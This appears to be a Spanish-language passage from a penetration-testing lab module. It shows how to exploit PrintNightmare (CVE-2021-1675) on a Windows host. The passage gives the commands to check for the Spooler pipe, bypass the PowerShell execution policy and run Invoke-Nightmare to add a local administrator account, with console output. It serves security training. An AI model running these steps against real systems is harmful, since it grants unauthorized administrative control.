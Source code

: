 ### Checking for Spooler Service

Podemos verificar rápidamente si el servicio **Spooler** está en ejecución con el siguiente comando. Si no está en ejecución, recibiremos un error de "path does not exist".

```r
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

### Adding Local Admin with PrintNightmare PowerShell PoC

Primero comienza [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) la política de ejecución en el host de destino:

```r
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Ahora podemos importar el script de **PowerShell** y usarlo para agregar un nuevo usuario administrador local.

```r
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

### Confirming New Admin User

Si todo salió según lo planeado, tendremos un nuevo usuario administrador local bajo nuestro control. Agregar un usuario es "ruidoso", No querríamos hacer esto en una evaluación donde la discreción sea una consideración. Además, querríamos verificar con nuestro cliente para asegurarnos de que la creación de cuentas esté dentro del alcance de la evaluación.

```r
PS C:\htb> net user hacker

User name                    hacker
Full Name                    hacker
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            ?8/?9/?2021 12:12:01 PM
Password expires             Never
```
